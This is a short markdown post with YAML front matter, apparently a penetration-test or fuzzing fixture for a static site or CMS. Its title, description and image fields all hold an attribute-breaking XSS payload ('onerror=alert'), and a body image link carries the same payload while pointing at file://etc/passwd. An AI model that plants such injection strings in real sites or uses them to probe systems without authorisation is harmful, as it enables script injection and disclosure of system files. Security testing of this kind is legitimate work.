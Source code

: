 ```yaml
---
title: '"><img src=x onerror=alert(137) ~2F>"><img src=x onerror=alert(137) ~2F>'
date: 2021-06-30T19:22:44.792Z
description: '"><img src=x onerror=alert(137) ~2F>"><img src=x onerror=alert(137) ~2F>'
image: '"><img src=x onerror=alert(137) ~2F>.png'
---
```

![]()

!["><img src=x onerror=alert(137) ~2F>](file://etc/passwd "\"><img src=x onerror=alert(137) ~2F>")